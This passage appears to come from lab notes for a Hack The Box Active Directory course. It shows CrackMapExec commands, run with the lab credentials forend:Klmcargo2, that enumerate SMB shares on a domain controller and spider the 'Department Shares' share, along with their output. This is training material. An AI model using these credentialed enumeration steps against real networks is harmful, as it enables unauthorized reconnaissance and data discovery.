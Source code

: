 SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\svc\_qualys                logon\_server: ACADEMY-EA-DC01

SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\wley                      logon\_server: ACADEMY-EA-DC01

\```

1. \*\*Share Enumeration - Domain Controller\*\*

\```livescript

Foresty@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [\*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated shares

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Share           Permissions     Remark

SMB         172.16.5.5      445    ACADEMY-EA-DC01  -----           -----------     ------

SMB         172.16.5.5      445    ACADEMY-EA-DC01  ADMIN$                          Remote AdminSMB         172.16.5.5      445    ACADEMY-EA-DC01  C$                              Default shareSMB         172.16.5.5      445    ACADEMY-EA-DC01  Department Shares READ

SMB         172.16.5.5      445    ACADEMY-EA-DC01  IPC$            READ            Remote IPCSMB         172.16.5.5      445    ACADEMY-EA-DC01  NETLOGON        READ            Logon server share

SMB         172.16.5.5      445    ACADEMY-EA-DC01  SYSVOL          READ            Logon server share

SMB         172.16.5.5      445    ACADEMY-EA-DC01  User Shares     READ

SMB         172.16.5.5      445    ACADEMY-EA-DC01  ZZZ\_archive     READ

\```

1. \*\*Spider\_plus\*\*

\```php

Foresty@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider\_plus --share 'Department Shares'

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [\*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2

SPIDER\_P... 172.16.5.5      445    ACADEMY-EA-DC01  [\*] Started spidering plus with option:

SPIDER\_P... 172.16.5.5      445    ACADEMY-EA-DC01  [\*]        DIR: ['print$']

SPIDER\_P... 172.16.5.5      445    ACADEMY-EA-DC01  [\*]        EXT: ['ico', 'lnk']

SPIDER\_P... 172.16.5.5      445    ACADEMY-EA-DC01  [\*]       SIZE: 51200

SPIDER\_P... 172.16.5.5      445    ACADEMY-EA-DC01  [\*]     OUTPUT: /tmp/cme\_spider\_plus

\```


